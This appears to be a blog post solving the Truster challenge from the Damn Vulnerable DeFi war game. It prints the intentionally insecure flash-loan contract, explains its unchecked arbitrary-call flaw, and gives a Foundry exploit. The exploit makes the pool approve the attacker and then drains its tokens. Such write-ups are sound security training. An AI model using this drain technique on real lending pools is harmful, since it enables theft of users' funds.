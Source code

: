 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #3 Solution — Truster'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>Our end goal here is to attack the pool to drain all the 1 million DTV tokens available in the balance.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-10T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #3 — Truster

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> Currently the pool has 1 million DVT tokens in balance. And you have nothing.
>
> But don’t worry, you might be able to take them all from the pool. In a single transaction.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/truster)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/truster/truster.challenge.js)

## The attacker end goal

Our end goal here is to attack the pool to drain all the 1 million DTV tokens available in the balance.

Given the context of the challenge, we will leverage the **free flash loan mechanism** of the landing pool to steal all the funds.

## Study the contracts

### `TrusterLenderPool`

The contract has only one method inside called `flashLoan`.

```solidity
// Don't use this code in production
// This is an insecure code part of https://www.damnvulnerabledefi.xyz/ challenges

function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
    external
    nonReentrant
{
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    damnValuableToken.transfer(borrower, borrowAmount);
    target.functionCall(data);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

The function takes in input four parameters:

- `borrowAmount`: the number of tokens to send to the `borrower` address
- `borrower`: the address that is borrowing the tokens and that will receive the amount of token borrowed
- `target`: the address of the contract on which the `OpenZeppelin Address.functionCall` will be executed on
- `data`: the byte payload that will be used to `Address.functionCall`

What else can we see looking at the code?

- The function has `nonReentrant` function modifier, so we can assume that is not prone to reentrancy attacks
- it’s **not checking** the `borrower` or `target` address
- It’s **not checking** that the `borrowAmount` is 0
- Is checking that the balance of the pool has at least `borrowAmount` tokens
- Transfer the `borrowAmount` to the `borrower` address
- Execute a `functionCall` with `data` as parameter on the target address
- And at the end, verify that the final balance of the contract is greater than the starting balance

So, we cannot

- steal funds using reentrancy
- steal funds directly because it will check at the end if we have sent back all the funds

But we have three hints:

- it’s not checking that the `borrowAmount` is zero
- it’s not checking the `borrower` or `target` address
- and it’s executing an external call to the `target` address passing an arbitrary `data` payload to it

Let’s look at the source code of [Address.functionCall](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol). Following the code we see that the final code that will be executed is

```solidity
require(address(this).balance >= value, "Address: insufficient balance for call");
require(isContract(target), "Address: call to non-contract");
(bool success, bytes memory returndata) = target.call{value: value}(data);
return verifyCallResult(success, returndata, errorMessage);
```

Given this information, we know that the TrusterLenderPool contract will execute `target.call{value: value}(data);` using its own context.

This means that that specific arbitrary function executed on `target` is like if it will be **executed directly by** the **TrusterLenderPool** contract!

## Solution code

What function should we make the `TrusterLenderPool` execute that will allow us to steal all the funds?

We need to execute the [DamnVulnerableToken.approve(address spender, uint256 amount)](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol#L126-L140) with

- spender = attacker address
- amount = the balance of the lending pool

This will allow the attacker to transfer all the DVT token owned by the LendingPool to the attacker itself!

With all the information that we have, we can:

- Call the `flashLoan` function asking to borrow 0 token, so we will not need to pay back anything. This is important because the attacker does not own any DVT token.
- Call the `flashLoan` with target as the DVT token address to execute the call method on the Token contract itself
- Construct the `data` payload to make the `TrusterLenderPool` to call the DVT approve method `bytes memory data = abi.encodeWithSignature(“approve(address,uint256)”, attacker, poolBalance);`

```solidity
function exploit() internal override {
    /** CODE YOUR EXPLOIT HERE */
    uint256 poolBalance = token.balanceOf(address(pool));
    // Act as the attacker
    vm.prank(attacker);
    // make the pool approve the attacker to manage the whole pool balance while taking a free loan
    bytes memory attackCallData = abi.encodeWithSignature("approve(address,uint256)", attacker, poolBalance);
    pool.flashLoan(0, attacker, address(token), attackCallData);
    // now steal all the funds
    vm.prank(attacker);
    token.transferFrom(address(pool), attacker, poolBalance);
}
```

You can find the full solution on GitHub, looking at [Truster.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/truster/Truster.t.sol)

If you want to try yourself locally, just execute `forge test — match-contract TrusterTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
